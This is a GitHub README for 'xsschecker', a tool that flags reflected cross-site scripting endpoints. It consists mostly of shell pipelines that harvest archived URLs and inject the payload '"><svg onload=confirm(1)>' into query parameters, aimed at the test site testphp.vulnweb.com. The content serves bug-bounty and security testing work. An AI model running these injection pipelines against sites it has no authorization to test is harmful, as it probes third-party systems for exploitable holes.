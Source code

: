 <h1 align="center">xsschecker</h1> <br>

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```bash
go install github.com/rix4uni/xsschecker@latest
```
or

```bash
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Reflected XSS
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | qsreplace -a | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" -x "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | uro | nilo | qsreplace '"><svg onload=confirm(1)>' | airixss -hm -s -c 5
```

urldedupe bhedak
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | xsschecker
```

Airixss XSS
```bash
waybackurls testphp.vulnweb.com | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

Kxss
```bash
waybackurls testphp.vulnweb.com | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

gospider
```bash
gospider -s "testphp.vulnweb.com" -c 10 -d 5 -t 100 --other-source | tr " " "\n" | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro
```
